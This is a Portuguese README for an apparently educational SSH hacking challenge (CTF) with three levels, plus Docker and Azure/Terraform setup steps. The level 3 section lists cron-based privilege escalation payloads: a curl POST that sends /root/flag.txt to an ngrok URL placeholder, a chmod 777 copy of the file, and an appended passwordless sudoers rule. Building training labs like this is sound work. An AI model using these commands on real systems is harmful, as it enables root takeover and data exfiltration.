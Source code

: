 # ssh-game
Repositorio com objetivo de armazenar desafio de hacking relacionado a SSH

## nivel 1
Neste nível, o objetivo é que as pessoas possam navegar em uma interface que se pareça com um roteador.
Até encontrarem uma ferramenta de ping, que utiliza  command line para executar o teste.
Através disto, serão desafiadas a encontrar as chaves de conexão SSH do roteador, seguindo para o desafio nivel 2.
Terá uma flag no arquivo id_rsa, o mais importante para este momento.

## nivel 2
Este nível, é quase uma extensão, em termos de dificuldade, do nível 1.
A pessoa que obtiver as chaves, deverá trazê-las para sua máquina, modificar o nível de permissionamento deste (caso exista, se tratando de windows, isso não faz a menor diferença) e, depois, utilizar para conectar-se via SSH ao pseudo-roteador.
Após os passos descritos acima, é necessário montar o ambiente necessário para conexão via SSH, se for Windows, basta utilizar o Putty, se Linux, já existirá o ssh client nativo.
Ao obter a conexão, será exibido um BANNER de login (WIP), com algumas instruções e a próxima flag.

## nivel 3
Este nível, é o mais difícil e aqui está como finalização, após este o comprometimento da máquina se dá por completo.
A pessoa que estiver jogando, será convidada a ler o conteúdo do arquivo /root/flag.txt.
Para isso, será necessário realizar um privilege escalation através de uma tarefa cron.
Com isso, será demonstrado que, é possível ler uma tabela cron e saber se existem scripts desprotegidos e sendo executados como root.
Uma das possíveis soluções é, criar um arquivo `log.sh`, na home do temp_user para que faça um :
- cat /root/flag/txt > /home/temp_user/flag.txt && chmod 777 /home/temp_user/flag.txt 
- curl -X POST --data-binary @/root/flag.txt [URL_DO_NGROK] 
- echo "temp_user ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
Qualquer uma destas soluções habilita a leitura do arquivo /root/flag.txt
O arquivo log.sh pode ser descoberto através de um cat em /etc/crontab


## O que preciso instalar?
  * Docker
    Estes desafios estão FORTEMENTE acoplados a Docker e Docker Compose.
    O desafio 2 considera que existe Docker localmente para que possa iniciar sessões com experiência de SSH mas conectando-se ao tty e stdin dos containers executados.
  * Nodejs 12.x
  * SSH client
  * AZ Cli
  * Terraform (caso queira publicar a infra no Azure via AzureRM)

## Já instalei docker e docker-compose, o que faço agora?
Depois de ter instalado o que era necessário, basta rodar:
```bash
docker-compose build
docker-compose up
```

No caso de estar em ambiente Windows, o sock do docker é diferente, utilize:
```powershell
docker-compose -f docker-compose.windows.yml build
docker-compose -f docker-compose.windows.yml up
```

Os desafios estarão dispoíveis conforme descrito abaixo:
* nivel 1 - [http://localhost:4444](http://localhost:4444)
* nivel 2 - tcp://localhost:2222
* nivel 3 - usa a mesma conexão do nível 2

## Publicando no Azure
Após instalar `AZ Cli` e `terraform` de acordo com as recomendações para o seu sistema operacional, é necessário iniciar algumas etapas:
1. `az login` (para logar em sua conta, basta seguir o passo a passo ao abrir o navegador)
2. `az account show` (para verificar se está utilizando a subscription correta, para trocar veja este [link](https://docs.microsoft.com/en-us/cli/azure/account?view=azure-cli-latest#az_account_set))
3. Na pasta do terraform, `terraform init` (para baixar o provider do Azure, azurerm)
4. `terraform apply` (para que o terraform conecte no azure e crie o plano de provisionamento)
5. Existem duas variáveis para orientar o terraform a provisionar o ambiente na região correta da Azure e com o prefixo adequado, por padrão, tenho utilizado `var.location=brazilsouth` e `var.prefix=ssh-game` mas não são valores obrigatórios, sinta-se livre para mudar
6. Se estiver de acordo com o plano e a subscription usada, responda com `yes` ao prompt do `terraform`
7. Ao finalizar o provisionamento, o Public IP via `output`, do terraform, será exibido no terminal
8. Por enquanto, a publicação está sendo feita através de um simples git clone do meu repositório, ainda privado.
9. Quando este repositório virar público, não será mais necessário utilizar SSH para dar clone, serão removidas sessões de upload de chave SSH privada e alterado o clone para HTTPS

TLDR para o terraform (ainda precisa de login no `AZ Cli` 
```bash
terraform apply -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para todos os recursos estarem provisionados e disponíveis ao uso.

## Não quero mais cobrança, quero destruir tudo isso ai lá na Azure 
```bash
terraform destroy -auto-approve -var='location=brazilsouth' -var='prefix=ssh-game'
```
Leva em torno de 5 minutos para destruir todos os recursos.


## Informações complementares
Para rodar estes desafios, será necessário ter ngrok instalado e, após isto, remapear, no `docker-compose.yml`, portas de nível root (80 e 22).
Portas altas foram usadas para não ser necessário qualquer privilégio administrativo enquanto desenvolvimento.
A experiência completa se baseia em parecer com um roteador de verdade, portanto, é necessário utilizar portas que sejam também usadas por tal.
